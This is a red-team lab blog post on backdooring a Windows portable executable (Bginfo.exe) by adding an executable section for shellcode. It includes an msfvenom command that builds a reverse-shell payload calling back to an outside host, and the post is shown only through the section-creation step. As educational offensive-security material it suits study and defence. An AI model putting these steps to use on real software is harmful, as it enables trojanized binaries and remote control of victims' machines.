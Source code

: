 ```yaml
---
layout: post
title: "2024-06-18-backdooring portable executables pe with shellcode"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /backdooring-portable-executables-pe-with-shellcode/
---
```


# Backdooring PE Files with Shellcode

The purpose of this lab is to learn the Portable Executable (PE) backdooring technique by adding a new readable/writable/executable code section with our malicious shellcode to any portable executable file.

High level process of this technique:

* Add a new RWX PE section, big enough to hold our shellcode, to any .exe file&#x20;
* Generate shellcode
* Add shellcode to the newly created PE section
* Redirect execution flow of the .exe file being backdoored to the shellcode
* Redirect execution flow back to the legitimate .exe instructions

The last two steps are a bit more complicated and will have more details below.

## Groundwork

### Generate Shellcode

First of, let's generate the shellcode so we know how many bytes of space we will need in the new PE section:

```csharp
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 | hexdump -C
```

![](<../../.gitbook/assets/image (111).png>)

Note that the shellcode size is 324 bytes - the new PE section will have to be at least that big.

### New PE Code Section

I randomly chose Bginfo.exe from sysinternals as a binary to be backdoored. Let's add a new PE section called `.code1` that will contain our shellcode - note the size is 200h bytes, so plenty for our shellcode which was only 324 bytes:

![](<../../.gitbook/assets/image (108).png>)

Note the Raw Address of the new section which is CD200 - this is where we will place the shellcode inside the file in later steps.
